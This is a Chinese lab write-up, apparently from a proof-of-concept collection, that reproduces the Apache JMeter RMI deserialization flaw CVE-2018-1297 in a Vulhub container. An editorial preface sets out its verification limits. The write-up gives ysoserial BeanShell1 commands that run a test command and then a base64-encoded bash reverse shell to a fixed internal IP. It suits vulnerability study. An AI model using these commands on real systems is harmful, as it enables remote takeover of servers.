



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：笼统2.x/3.x，没固定版本或具体实验tag；需RMI服务开放和兼容BeanShell1/JDK

代码与实验材料：ysoserial触发touch及反连示例，反连base64包含固定内网IP，应用运行权限未说明

来源证据范围：Threekiii/Vulhub衍生，缺官方公告及具体环境路径

- **适用与权限边界（1）**：默认服务与依赖条件缺失；依据：启动实验监听1099不能推为所有JMeter默认开放；BeanShell/JDK过滤和固定版本未列。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（2）**：网络占位不统一；依据：首请求your-ip，反连示例固定内网目标及编码IP，需标实验值和副作用。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jmeter RMI 反序列化命令执行漏洞 CVE-2018-1297

## 漏洞描述

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

运行完成后，将启动一个RMI服务并监听1099端口。

## 漏洞复现

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```



我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：



反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit 192.168.174.128 1099 BeanShell1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

监听9999端口，成功接收反弹shell：




---

> 来源：Threekiii/Awesome-POC
